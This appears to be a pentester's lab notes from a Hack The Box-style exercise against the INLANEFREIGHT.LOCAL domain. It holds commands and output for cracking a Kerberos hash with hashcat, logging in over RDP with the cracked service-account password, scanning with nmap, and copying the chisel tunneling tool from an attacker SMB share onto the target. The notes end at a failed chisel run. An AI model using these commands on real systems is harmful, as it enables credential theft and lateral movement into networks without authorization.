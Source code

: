 hashcat -m 13100 type.hash /usr/share/wordlists/rockyou.txt 
lucky7

nslookup MS01.INLANEFREIGHT.LOCAL


Name:    MS01.INLANEFREIGHT.LOCAL
Addresses:  dead:beef::405a:9828:4c1d:6776
	  dead:beef::2d
	  172.16.6.50

xfreerdp /u:svc_sql /p:"lucky7" /v:172.16.6.50

sudo nmap -sS $TARGET
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-08 11:43 GMT
Nmap scan report for 10.129.81.134
Host is up (0.024s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds


1) Cloning Chisel

git clone https://github.com/jpillora/chisel.git
cd chisel
go build

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share /home/htb-ac-786011/
cmd.exe /c copy \\10.10.14.190\share\chisel\chisel

**Error** : organization's security policies block unauthenticated guest access


sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share /home/htb-ac-786011/ -user test -password test

net use n: \\10.10.14.190\share /user:test test
The command completed successfully.

copy n:\chisel\chisel

dir C:\windows\system32\inetsrv
chisel

./chisel server -v -p 1234 --socks5

Program 'chisel' failed to run: Class not registeredAt line:1 char:1
+ ./chisel server -v -p 1234 --socks5
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ ./chisel server -v -p 1234 --socks5
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
